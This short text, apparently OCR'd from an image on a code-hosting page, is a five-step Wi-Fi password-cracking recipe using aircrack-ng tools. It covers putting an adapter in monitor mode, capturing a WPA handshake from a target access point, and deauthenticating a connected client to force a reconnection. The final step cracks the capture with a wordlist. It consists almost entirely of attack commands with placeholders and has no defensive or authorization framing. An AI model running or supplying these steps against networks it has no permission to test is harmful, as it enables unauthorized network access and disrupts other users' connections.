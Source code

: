 1. Put your wireless adapter in monitor mode:
   ```
   airmon-ng start <interface>
   ```

2. Capture handshake:
   ```
   airodump-ng -c <channel> --bssid <target_MAC> -w <output_file> <interface>
   ```

3. (Optional) Deauthenticate a client to force reconnection and capture handshake:
   ```
   aireplay-ng -0 1 -a <target_MAC> -c <client_MAC> <interface>
   ```

4. Once you have the handshake, stop the capture.

5. Use a wordlist to attempt cracking:
   ```
   aircrack-ng <capture_file> -w <wordlist_file>
   ```